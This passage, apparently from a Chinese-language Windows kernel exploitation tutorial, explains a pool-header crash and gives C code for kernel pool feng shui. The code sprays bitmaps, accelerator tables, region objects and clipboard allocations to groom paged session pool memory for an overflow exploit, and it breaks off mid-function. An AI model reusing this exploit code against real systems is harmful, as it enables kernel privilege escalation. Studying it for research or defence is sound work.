 crash产生的原因上文已经提及，在bFill函数的结尾：被分配的object需要被释放，当一块内存被释放的时候，内核会检查相邻chunk的pool header，如果有损坏的话就会BSoD，因为我们溢出了相邻的页而且没有修复，所以在check的时候failed了。

bypass这个check的方法是使分配的object在每个页的尾部，这样就不会有在调用free()的时候被check下一个chunk的环节了。

还值得注意的是：

1. 每个页面的大小是0x1000bytes，任何更大的分配请求会被分配在`Large Kernel Pool`
2. 任何超过0x808的分配请求会被分配在页的开头。
3. 随后的分配请求会被分配在页的结尾。
4. 分配需要相同的`Pool Type`，在我们的这个例子中是`Paged Session Pool`
5. 分配Objects的时候经常会添加一个大小为0x10的header。如果我们想分配一个大小为0x50的Object，实际在页面上会占用0x60的大小。

拥有了以上知识，就可以利用内核池风水构造exp：

```c
void fungshuei() {
	HBITMAP bmp;

	// Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(1670, 2, 1, 8, NULL); // 1670  = 0xf80 1685 = 0xf90 allocation size 0xfa0
		bitmaps[k] = bmp;
	}

	HACCEL hAccel, hAccel2;
	LPACCEL lpAccel;
	// Initial setup for pool fengshui.  
	lpAccel = (LPACCEL)malloc(sizeof(ACCEL));
	SecureZeroMemory(lpAccel, sizeof(ACCEL));
 	
	// Allocating  7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
	HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	for (INT i = 0; i < 7000; i++) {
		hAccel = CreateAcceleratorTableA(lpAccel, 1);
		hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
		pAccels[i] = hAccel;
		pAccels2[i] = hAccel2;
	}

	// Delete the allocated bitmaps to free space at beginning of pages
	for (int k = 0; k < 5000; k++) {
		DeleteObject(bitmaps[k]);
	}

	//allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
	for (int k = 0; k < 5000; k++) {
		CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
	}

	// Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
		bitmaps[k] = bmp;
	}

	// Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
	for (int k = 0; k < 1700; k++) { //1500
		AllocateClipBoard2(0x30);
	}

	// delete 2000 of the allocated accelerator tables to make holes at the end of the page in our spray.
```